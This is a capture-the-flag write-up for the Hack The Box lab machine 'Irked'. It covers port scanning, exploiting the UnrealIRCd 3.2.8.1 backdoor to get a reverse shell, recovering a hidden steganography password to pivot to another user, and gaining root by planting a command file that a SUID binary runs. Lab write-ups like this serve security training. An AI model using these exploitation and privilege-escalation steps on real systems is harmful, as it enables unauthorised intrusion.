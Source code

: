 # Index
1. [Enumeration](#enumeration)
	<br>
	1.1 [Nmap](#nmap)
	</br>
	
2. [Privesc](#privesc)

#### Tags
<details markdown='1'>
<summary>Click to get a hint</summary> 
<ul>
	<li>IRC</li>
	<li>Stego</li>
	<li>SUID privilege escalation</li>
</ul>
</details>

### Enumeration
**IP Address** 10.10.10.117
#### Nmap
My first step, as in any other machine, is running an Nmap scan.
I'm used to running in first place *Nmap -p- {ip}* so it does a scan through all 65535 ports of the machine. After this scan, I usually run a more specific scan through the open ports. In this case, the second scan showed me the following results:
```shell
sudo nmap -sC -sV -O -p 22,80,111,8067,37395,65534 10.10.10.117
[sudo] password for kali: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-15 12:19 EDT
Nmap scan report for 10.10.10.117
Host is up (0.051s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
|   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
|   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
|_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Site doesn't have a title (text/html).
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          37395/tcp   status
|   100024  1          39240/udp6  status
|   100024  1          43552/udp   status
|_  100024  1          50881/tcp6  status
6697/tcp  open  irc     UnrealIRCd
8067/tcp  open  irc     UnrealIRCd
37395/tcp open  status  1 (RPC #100024)
65534/tcp open  irc     UnrealIRCd
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.16 (95%), Linux 3.18 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.4 (95%), Linux 4.8 (95%), Linux 4.9 (95%), Linux 4.2 (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: irked.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.60 seconds
```

While the *nmap* was working, I tried to do a further investigation at the 80 port. 
In this port we can observe a web page with only a picture. After performing some *fuzzing* with *gobuster* and *ffuf*, I found nothing.

![Image 1](pictures/irked-01.png)
  
  
Here I had to choose between going further with te RCP or with the IRC.
I decided to go with the RCP, so I run *rcpinfo*, obtaining the following:

```shell
 rpcinfo irked.htb
   program version netid     address                service    owner
    100000    4    tcp6      ::.0.111               portmapper superuser
    100000    3    tcp6      ::.0.111               portmapper superuser
    100000    4    udp6      ::.0.111               portmapper superuser
    100000    3    udp6      ::.0.111               portmapper superuser
    100000    4    tcp       0.0.0.0.0.111          portmapper superuser
    100000    3    tcp       0.0.0.0.0.111          portmapper superuser
    100000    2    tcp       0.0.0.0.0.111          portmapper superuser
    100000    4    udp       0.0.0.0.0.111          portmapper superuser
    100000    3    udp       0.0.0.0.0.111          portmapper superuser
    100000    2    udp       0.0.0.0.0.111          portmapper superuser
    100000    4    local     /run/rpcbind.sock      portmapper superuser
    100000    3    local     /run/rpcbind.sock      portmapper superuser
    100024    1    udp       0.0.0.0.170.32         status     107
    100024    1    tcp       0.0.0.0.146.19         status     107
    100024    1    udp6      ::.153.72              status     107
    100024    1    tcp6      ::.198.193             status     107

```

As I didn´t see anything to go on, I decided to go back to the IRC.
First of all, when I know a technology that is used in the server, such as UnrealIRCd, I like to search it with *searchsploit*, so I can get an idea about the vulnerabilities this technology has.

![Image 2](pictures/irked-02.png)

As we can see, there is a possible backdoor via metasploit. However, we don´t know the version yet. In order to know the version, I try to connect with the IRC server.  To do so, I used set of tools called [irssi](https://irssi.org/)
```shell
irssi -c 10.10.10.117 --port 8067
```

![Image 3](pictures/irked-03.png)

Once I connected to the server, I was able to see the UnreallRCd version. As expected, it was 3.2.8.1, so we know it is vulnerable to the backdoor that we saw before. However, in order to avoid metasploit, I searched for another exploit, finding this [one](https://github.com/Ranger11Danger/UnrealIRCd-3.2.8.1-Backdoor). It gives the attacker several options for the payload. I ended up chosing *python*.

Before running the exploit, it is necessary to change the exploit in order to add your own IP and port (attacker's machine) and, of course, it is mandatory to start a listener.

This is the command to run the exploit:

```shell 
python3 exploit.py 10.10.10.117 8067 -payload python
```

We can finally obtain a shell as the user *ircd*

![Image 4](pictures/irked-04.png)

After listing the directory *home*, it is possible to discover another user, *djmardov*. Running the following command, it is also possible to find the user flag. 


```shell
ircd@irked:/tmp$ locate user.txt
locate user.txt
/home/djmardov/Documents/user.txt

ircd@irked:/tmp$ ls -lrt /home/djmardov/Documents
ls -lrt /home/djmardov/Documents
total 4
-rw------- 1 djmardov djmardov 33 May 15  2018 user.txt
```

Nevertheless, the user *ircd* does not have permission to read it, so now we need to get access as the user *djmardov*.

After running [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) we find a rare hidden file in *djmardov*'s directory:

![Image 5](pictures/irked-05.png)

Weird backup files are always interesting and should be taken into account.
In this case, it is possible to read this file:
```shell
ircd@irked:/tmp$ strings /home/djmardov/Documents/.backup
strings /home/djmardov/Documents/.backup
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
```

So, we have a password righ now and a hint: *Super elite steg backup pw*.
The first thing I try was to access to the machine as *djmardov* with this password by *su djmardov* and by ssh. It wasn't possible, so after reading again the hint, I recalled that we had a web page with only one picture. It was time for stego. 
In order to download the picture in the web and to extract the image, I used the following commands:

![Image 6](pictures/irked-06.png)

With this password, it is possible to establish an ssh session as the user *djmardov* and retrieve the content in *user.txt*. Now it's time for privesc:

### Privesc

After running again *linpeas*, I was not sure were to go on. I usually have 3 tools for privesc:
- Linpeas/Linenum
- [suid3num](https://github.com/Anon-Exploiter/SUID3NUM)
- [pspy](https://github.com/DominicBreuker/pspy)


I know suid3num has a similar output to Linpeas, but for me it's easier to analyze the SUID output with this tool. On the other side, pspy is the tool for the moment in which I don´t know what else to do, so I can see if there's any process running I haven´t seen before.
In case it's the first time you hear about SUID privilege escalation, I recommend you to read this [article](https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/)

Following with irked, suid3num provides us with an interesting output:  
  
  
![Image 7](pictures/irked-07.png)

After running *viewuser*, we can see an strange error message:

![Image 8](pictures/irked-08.png)


It seems that the binary is looking for a file called *listusers* and located at */tmp*
As there is no such file in */tmp* directory, I created one file with the command *id* and run again the binary *viewuser*:

![Image 9](pictures/irked-09.png)

As it can be seen, the error message has changed. This is because the user *root* doesn´t have execution permissions. To get this, it is necessary to run the command:
```
chmod a+x listusers
```
Once that's done, we run again the binary *viewuser*:

![Image 10](pictures/irked-10.png)

As we expected, the binary executes the command. To obtain a shell as root, the only thing left to do is to change the file *listusers* from *id* to */bin/bash*:

![Image 11](pictures/irked-11.png)

Please, feel free to [contact](https://twitter.com/sergioframi)  me if you want to ask or share anything about this machine. Thanks a lot! 